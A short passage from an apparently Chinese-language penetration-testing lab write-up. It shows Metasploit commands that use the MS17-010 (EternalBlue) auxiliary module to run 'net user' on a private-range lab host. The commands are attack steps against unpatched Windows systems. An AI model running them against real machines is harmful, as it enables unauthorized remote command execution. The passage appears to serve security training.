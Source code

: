 所以不行，看另一个漏洞

```shell
use auxiliary/admin/smb/ms17_010_command 发现有
set COMMAND net user设置
set RHOST 192.168.52.141设置监听ip
run执行
```

![](image/image-20240307183159214.png)

![image-20240307183400506](image/image-20240307183400506.png)